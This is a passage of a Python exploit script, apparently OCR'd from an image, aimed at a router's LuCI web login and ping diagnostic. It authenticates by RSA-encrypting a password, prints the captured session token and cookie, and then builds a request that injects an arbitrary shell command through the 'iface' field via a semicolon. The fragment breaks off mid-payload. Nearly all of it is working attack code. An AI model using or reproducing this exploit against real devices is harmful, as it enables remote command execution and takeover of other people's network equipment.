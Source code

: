 ```

js = js + line

line = file.readline()

file.close()

return js

def execute(ip, port, username, passwd, cmd):

```
try:
    s = requests.session()

    uri = "http://{}:{}".format(ip,port)
    headers = {
        'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
        'Referer': 'http://{}/webpages/login.html'.format(ip)
        }
    payload = {
        "method":"get"
    }
    ret = s.post(uri + '/cgi-bin/luci/;stok=/login?form=login', data=urllib.urlencode({"data":json.dumps(payload)}), headers=headers, timeout=5)
    rsa_public_n = json.loads(ret.text)['result']['password'][0].encode("utf-8")
    rsa_public_e = json.loads(ret.text)['result']['password'][1].encode("utf-8")
    js = read_js()
    js_handle = execjs.compile(js)
    password = js_handle.call('MainEncrypt', rsa_public_n, rsa_public_e, passwd)

    payload = {
        "method":"login",
        "params":{
            "username":"{}".format(username),
            "password":"{}".format(password)
        }
    }
    ret = s.post(uri + '/cgi-bin/luci/;stok=/login?form=login', data=urllib.urlencode({"data":json.dumps(payload)}), headers=headers, timeout=5)
    stok = json.loads(ret.text)['result']['stok'].encode('utf-8')
    cookie = ret.headers['Set-Cookie']

    print '[+] Login success'
    print '[+] Get The Token: ' + stok
    print '[+] Get The Cookie: ' + cookie

    headers = {
        'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
        'Referer':'http://{}/webpages/login.html'.format(ip),
        'Cookie':'{}'.format(cookie)
        }
    payload = {
        "method":"start",
        "params":{
            "type":"0",
            "type_hidden":"0",
            "ipaddr_ping":"127.0.0.1",
            "iface_ping":"WAN1",
            "ipaddr":"127.0.0.1",
            "iface":";{}".format(cmd),
            "count":"1",
            "pktsize":"64",
            "my_result":"exploit"
        }